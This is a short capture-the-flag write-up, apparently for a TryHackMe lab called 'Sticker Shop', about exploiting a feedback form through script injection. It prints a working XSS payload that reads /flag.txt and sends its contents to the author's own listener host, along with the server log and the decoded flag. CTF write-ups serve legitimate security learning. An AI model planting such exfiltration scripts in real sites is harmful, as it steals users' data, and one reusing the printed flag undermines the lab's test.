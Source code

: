 ```yaml
---
title: Sticker Shop
date: 2025-1-11 00:00:00 +0200
categories: Cybersecurity Tryhackme
tags:
  - THM
  - Writeups
by: Mahmud
---
```


we need to find the flag in `http://10.10.206.150:8080/flag.txt`

so when enter web page there is feedback tab we can use it for HTML injuction 
lets test it
1. on linux start webserver usng `pyton3 -m http.server 8080`

2. inject feedback with 

```html
   <img src='YourIP:8080'>
```
{: .nolineno }

1. you should see request in teminal so the injuction success 

2. so using chatgpt i create custom injuction 

```html
   <script>
    fetch('/flag.txt')
        .then(response => response.text())
        .then(data => {
            // Redirect to your server with the flag as a query parameter
            window.location.href = 'http://10.21.49.29:9091/?flag=' + encodeURIComponent(data);
        });
</script>

```
{: .nolineno }

1. you will receive

 ```bash
   10.10.206.150 - - [11/Jan/2025 01:03:11] "GET /?flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D HTTP/1.1" 200 -

```
{: .nolineno }
1. using URL decoder on  `flag=THM%7B83789a69074f636f64a38879cfcabe8b62305ee6%7D`
2. the flag is `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`
